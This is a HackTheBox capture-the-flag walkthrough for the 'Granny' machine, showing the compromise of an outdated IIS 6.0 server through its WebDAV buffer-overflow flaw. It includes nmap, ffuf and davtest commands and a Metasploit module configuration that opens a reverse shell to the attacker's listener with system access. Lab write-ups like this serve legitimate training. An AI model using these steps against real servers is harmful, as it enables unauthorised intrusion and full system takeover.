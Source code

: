 # Granny [HTB](https://app.hackthebox.com/machines/Granny)
![granny-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/granny-01.png)

## Recon

After adding the target to our `/etc/hosts` file, we can start scanning it with:

```bash
nmap -sC -sV -A -p- granny.htb -oN nmap.results
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/nmap-res-02.png)

We have the following:

+ An IIS v6.0 server running on port 80.

It appears that the server is running an extremly outdated IIS server, as Microsoft released IIS v6.0 with
the 2003 Windows Server on May 28, 2003, which reached End-of-Life on Jul 14, 2015. [source](https://learn.microsoft.com/en-us/lifecycle/products/internet-information-services-iis) 

I'm thinking public exploits. 


### IIS Port 80

With a quick Goolge search, we can find a public exploit for IIS V6.0 on [Exploit-DB](https://www.exploit-db.com/exploits/41738): 

![payload-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/payload-03.png)

This is a python 2 script, exploiting a buffer overflow vulnerability that lays in the `ScStoragePathFromUrl` function of the `WebDAV` Microsoft standard. 

`WebDAV` is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections, which also supports file uploads to the server.  
This is not enabled by default, when you install the IIS server role, you need to check a box to enable `WebDAV`, [source](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)

The `WebDAV` interface could be on the server root directory, or it could be on a dedicated directory,  It depends on the config file. However, a common location is `/webdav` lets give it a shot:

![find-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/find-04.png)

It says the service is unavailable, maybe its disabled? Lets try directory busting to be sure:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt -u http://gra
nny.htb/FUZZ
``` 

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/ffuf-05.png)

Lets open this directory:

![vti-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/vti-06.png)

Looks interesting, but were not sure if its WebDAV enabled. We can verify this with:

```bash
davtest -url http://granny.htb/_vti_bin
```

![davtest-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/davtest-07.png)

The file upload failed, that's one exploit vector, But the `WebDAV` connection succeeded, which means we 
can try the buffer-overflow exploit we found earlier for IIS 6.0. 

I've tried the python script from exploit-DB, the issue is with the shellcode, which opens `calc.exe`, 
instead of esteblishing a reverse shell. So i found another exploit on [Github](https://github.com/danigargu/explodingcan/tree/master). This one specifies that the shellcode must be alphanumerically encoded, Iv'e tried it, didnt work for me. I tried a combination of different shellcodes and exploits, nothing worked for me. 


So instead i decided to go for the Metasploit implemantation of the exploit. 

```bash
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS granny.htb
set LHOST tun0
set LPORT 443
set TARGETURI /_vti_bin
```

![options-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/options-08.png)

From here we can run `exploit`:

![root-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/root-09.png)


Not only do we get a shell, we get full system access. However do note, this is in fact a 2003 Windows 
server, the directory structure is different from modern Windows systems. The user's folders are in `C:\Documents and Stettings`. 

